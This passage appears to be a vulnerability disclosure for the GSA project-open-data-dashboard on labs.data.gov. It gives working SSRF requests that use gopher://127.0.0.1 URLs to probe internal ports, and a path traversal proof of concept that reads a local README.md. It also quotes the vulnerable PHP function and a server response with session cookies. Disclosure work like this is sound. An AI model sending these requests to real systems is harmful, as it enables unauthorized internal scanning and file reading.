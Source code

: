 Response
```
HTTP/1.1 504 Gateway Time-out
Date: Wed, 10 Jun 2020 21:59:23 GMT
Content-Type: text/html
Connection: close
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
Set-Cookie: citrix_ns_id=8E6YqKIHpDnlELCEZHQGi6/DbMc0002; Domain=.data.gov; Path=/; Secure; HttpOnly
Set-Cookie: citrix_ns_id_.data.gov_%2F_wlf=AAAAAAXN5F16ey5zISfQ585lXQBGHlN-7dr9WKl_OFLsX_Q6Z5FSkI1y5osrgkCJi30EZN3BqgmpbDGukEtJm4GeqYoRcF1ShGz2vNsMLkPUnGJfMg==&AAAAAAXr_jOkM7gR-f7M4RoCUEgFaXqHkFZh1c2M_0VcuOMELZ4L1xjh_7Cg7-1hFJ019Co3chJ3Y6GOPx3937UBarN6bbiMCl_jnjn3xYOPDRvJ2w==&; Domain=.data.gov; Max-Age=604800; Path=/; Version=1; Secure; HttpOnly
Set-Cookie: citrix_ns_id_.data.gov_%2F_wat=AAAAAAUCRwLvsF1G93DnYnM3tfgy7WeGLO5AGxKuZ4E4g06xunWnhmGEOXaEsURmVksrMxmgclkLw2DWjtRZmysJshVE&; Domain=.data.gov; Path=/; Secure; HttpOnly
X-Cache-Control-Orig: 
Cache-Control: max-age=0, must-revalidate, private
X-Expires-Orig: None
Content-Length: 160

<html>
<head><title>504 Gateway Time-out</title></head>
<body>
<center><h1>504 Gateway Time-out</h1></center>
<hr><center>nginx</center>
</body>
</html>
```

PORT 25  - open
https://labs.data.gov/dashboard/Campaign/json_status/gopher%3A%2F%2F127.0.0.1%3A25 - TIMEOUT

PORT 8080 - closed
https://labs.data.gov/dashboard/Campaign/json_status/gopher%3A%2F%2F127.0.0.1%3A8080 - 157 m/s response time


## Read file from /root catalog README.md
In this usage of routes functionality we will present limited Local life inclusion, we escaped desired catalog "documentation" and called README.md, this vulnerability is limited due to ".md" added to string function parameter at
https://github.com/GSA/project-open-data-dashboard/blob/master/application/controllers/Docs.php#L30

POC
---
read README.md from my root dir.
```
https://labs.data.gov/dashboard/Docs/index/..%2fREADME
```
Function called "Docs" param $page = ..%2fREADME

This vuln is limited due to ".md" hardcoded

```
	public function index($page = 'main')
	{

		$data = array();

		$docs_path = ($this->config->item('docs_path')) ? $this->config->item('docs_path') : 'https://raw.githubusercontent.com/GSA/project-open-data-dashboard/master/documentation/';
		$docs_path = $docs_path	. $page . '.md';
		$docs = @file_get_contents($docs_path);
```
